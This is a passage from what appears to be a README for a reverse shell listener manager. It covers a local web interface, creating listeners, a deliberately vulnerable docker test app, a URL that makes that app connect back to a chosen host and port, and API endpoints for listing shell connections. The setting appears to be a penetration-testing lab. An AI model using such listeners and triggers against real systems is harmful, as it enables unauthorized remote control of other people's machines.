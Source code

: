 ### 2. Access the Web Interface

Open your browser and navigate to:
- **Main Interface**: http://localhost:8000
- **Reverse Shell Manager**: http://localhost:8000/static/reverse-shell.html

### 3. Create a Listener

1. In the web interface, click "Create Listener"
2. Optionally specify a port (auto-assigned if empty)
3. Set timeout and auto-close preferences
4. Click "Create Listener"

### 4. Test with Vulnerable Application

```bash
# Start the vulnerable test application
cd test-env/reverse-shell-test
docker-compose up vulnerable-app

# The vulnerable app will be available at http://localhost:8080
```

### 5. Trigger a Reverse Shell

Visit the vulnerable application and use the reverse shell endpoint:
```
http://localhost:8080/reverse-shell?host=<your-ip>&port=<your-port>
```

## API Reference

### Endpoints

#### Create Listener
```http
POST /api/v1/reverse-shells/listeners
Content-Type: application/json

{
  "port": 4444,           // Optional, auto-assigned if not provided
  "auto_close": true,      // Auto-close inactive connections
  "timeout": 300          // Timeout in seconds
}
```

#### Get All Connections
```http
GET /api/v1/reverse-shells/connections
```

#### Get Connection Info
```http
GET /api/v1/reverse-shells/connections/{connection_id}
```
